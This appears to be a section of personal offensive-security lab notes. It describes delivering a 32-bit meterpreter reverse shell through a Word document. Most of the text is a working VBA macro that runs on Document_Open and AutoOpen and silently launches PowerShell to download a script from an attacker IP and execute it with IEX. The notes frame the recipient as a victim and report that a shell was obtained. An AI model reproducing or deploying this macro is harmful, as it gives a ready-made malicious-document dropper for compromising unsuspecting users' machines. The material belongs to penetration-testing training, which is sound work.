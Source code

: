 ## Bypassing Powershell Execution
Our dll and script are ready to go, and we can execute the script using a 64-bit powershell session.
However, that's not very useful, because our victim will in no world, be running a powershell script in a powershell session to call our shell.

To tackle this, we'll edit our dll to be 32 bit, and also use a 32 bit meterpreter reverse shell that will be called using a word macro.

We start by compiling the code in [1. Reflective Load](1.%20Reflective%20Load.md) note, to be 32 bit instead of 64 bit.

We will then create the macro with the following code, to use powershell to download and run our powershell script:
```VBA
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.160/vs-run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Running the script, we get a shell:

![dn-macro](../../../Screenshots/dn-macro.png)
